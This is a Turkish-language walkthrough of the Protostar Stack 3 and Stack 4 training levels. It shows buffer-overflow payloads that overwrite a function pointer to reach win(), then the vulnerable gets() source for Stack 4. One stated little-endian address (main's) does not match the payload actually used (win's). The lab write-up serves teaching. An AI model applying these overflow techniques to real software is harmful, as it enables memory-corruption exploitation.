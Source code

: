 
`08048424` adresinde `win`, `08048438` adresinde `main` fonksiyonu bulunuyor.

Şimdi, bufferı taşırdıktan kaç `byte` sonra `fp` nin değerine yazmaya başladığımızı bulalım.

```bash
$ python -c "print 'A' * 64 + 'BBCCDDEEFFGGHHIIJJ' " | ./stack3
calling function pointer, jumping to 0x43434242
Segmentation fault
```

0x42 = B, 0x43 = C

Görüldüğü gibi 64 bytetan sonra direkt `fp` nin üzerine yazıyoruz.
`win` fonksiyonun adresini `little endian` a göre düzenleyelim. `"\x38\x84\x04\x08"`

```bash
$ python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

Kod akışını değiştirip, `win` fonksiyonunu çağırmış olduk.

![alt text](protostarPNG/stack-30.png "stack03")

# Stack 4

https://exploit-exercises.com/protostar/stack4/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bu seviyede yine bizden `win` fonksiyonunu çağırmamızı istiyor. Bunun için stack üzerinde `gets` fonksiyonu bitimindeki döneceği adresi(bu örnekte `main` de nerede devam edeceği) belirten `ret` in üzerine `win` fonksiyonunun adresini yazmamız gerekiyor.
